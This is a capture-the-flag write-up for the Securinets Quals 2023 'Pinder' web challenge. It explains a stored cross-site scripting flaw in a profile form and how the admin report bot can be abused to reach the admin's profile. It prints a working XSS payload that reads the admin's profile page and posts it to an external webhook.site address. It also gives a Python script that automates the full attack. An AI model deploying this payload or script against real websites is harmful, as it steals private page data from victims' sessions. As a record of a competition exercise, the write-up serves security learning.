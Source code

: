 
[toc]

{%hackmd @abc90/temp %}

Original article see: [TaiPhung217 - github](https://github.com/TaiPhung217/CTF_writeup/tree/main/2023/Securinets%20Quals%202023)


# Pinder

## Description

![](https://hackmd.io/_uploads/rkatqgpjn.png)

Link: http://pinder.securinets.tn

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2023/Securinets%20Quals%202023/pinder.zip).


## Solution

## Review source code

The source code is quite a lot but I will focus on a few important files.

![](https://hackmd.io/_uploads/H1aIoe6o2.png)

After looking through the entire source code, I noticed that there are some functions that should be paid attention to as follows:

- In the file `./routes/index.js`:

 `login`:

![](https://hackmd.io/_uploads/HJQcaeasn.png)

`register`:

![](https://hackmd.io/_uploads/B1Fa6lash.png)

`create-profile` and `make-public`:

![](https://hackmd.io/_uploads/rJRJReaj3.png)

In this function 3 inputs are required including `userId`, `firt_name`, `last_name` and `profile_picture_link`.

`const result = db.createProfile(req.session.userId, req.body.first_name, req.body.last_name, req.body.profile_picture_link, true);`


`/my-profile`:

![](https://hackmd.io/_uploads/By7FAlajh.png)

This path allows you to view previously created profiles. in which there is a point worth noting.

`res.render("my-profile", { profile: result[0] }` function gets the profile id in the database and displays it to the interface.

Here is the result of `result`:

![](https://hackmd.io/_uploads/B1B-1-Tj2.png)

However, on the desktop interface, the profile id is hidden with `style="display:none"`.

![](https://hackmd.io/_uploads/r12Qyb6jn.png)

There are also 2 other paths but only for admin.

![](https://hackmd.io/_uploads/H1ldJWpoh.png)

admin can view profiles of other accounts through the path `/profile/{id}`.

![](https://hackmd.io/_uploads/S1-aJbToh.png)


- The flag is located in the profile of `admin`.

![](https://hackmd.io/_uploads/rkrEeZTih.png)

- I tried to create a template containing malicious javascript code and open it in `admin` account.

In my account.

![](https://hackmd.io/_uploads/BkCYZZpj3.png)

In `admin`.

![](https://hackmd.io/_uploads/rJGab-ain.png)

yeah. :100: I received a message - XSS stored vulnerability from `admin` side.


- In `./util/report.js`:
There is a requirement, the url when sumit must start with `http://127.0.0.1/profile`.

![](https://hackmd.io/_uploads/B1UdMZpo2.png)

:::success
=> At this point, I can guess that this web application contains an XSS stored vulnerability.

The mining steps I perform will be as follows:
- Create an account and login
- Create profile contains XSS code to fetch to the profile in admin and send the results to a webhook.
- Get `id` of `profile` just created in view-source
- Submit my-profile to admin with the link `http://127.0.0.1/profile/{id}`
- Get flags from webhook
:::


## Exploit XSS
- Now, I change a bit the old payload to .
```!
"><script>fetch('http://127.0.0.1/my-profile').then(response => response.text()).then(data => {fetch('	https://webhook.site/9a0f20d5-7f92-43bb-a455-5d82fd12eb17',{method: 'POST', headers: {'Content-Type': 'text/plain'},body: data});}).catch(error => console.error(error));</script>
```

- Add it to the `firtname` of the profile.

![](https://hackmd.io/_uploads/BkxpQZpon.png)

Done!

- Looking at the source code we can see that `profile id` is `485`

![](https://hackmd.io/_uploads/S1GN4Zpoh.png)


- Now submit my profile to admin with the link
`http://127.0.0.1/profile/485`

![](https://hackmd.io/_uploads/ByiDNbTj3.png)

- ok, i get the flag from webhook.

![](https://hackmd.io/_uploads/HkU84b6in.png)

Flag: `securinets{3bcc81811533d70940084c8}`


## Script

```python
import requests
import string
import random

import time

from bs4 import BeautifulSoup

url = "http://pinder.securinets.tn"

webhook = "https://webhook.site/c575a735-3aaf-4b9a-b8b9-4eeba169e356"

payload = "'><script>fetch('http://127.0.0.1/my-profile').then(response => response.text()).then(data => {fetch('#####',{method: 'POST', headers: {'Content-Type': 'text/plain'},body: data});}).catch(error => console.error(error));</script>"

with requests.Session() as session:
    username = ''.join(random.choices(string.ascii_letters + string.digits, k=3))

    session.post(url + '/register', json={ 'username': username, 'password': '12345678'})
    session.post(url + '/login', json={ 'username': username, 'password': '12345678' })
    payload = payload.replace('#####', webhook)
    session.post(url + '/create-profile', json={"first_name":payload,"last_name":payload,"profile_picture_link":payload} )
    res = session.get(url + '/my-profile')
    if res.status_code == 200:
        soup = BeautifulSoup(res.content, "html.parser")
        card_subtitle = soup.find("p", class_="card-subtitle")
    
    if card_subtitle:
        value = card_subtitle.get_text().strip("#")
        print("Id profile: ", value)
        
    session.post(url + '/report', json={"url":"http://127.0.0.1/profile/" + value})
    time.sleep(2)
    print('Done! check webhook')


```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 2.py
Id profile:  517
Done! check webhook

```
Check webhook:

![](https://hackmd.io/_uploads/Syc66Zpj3.png)




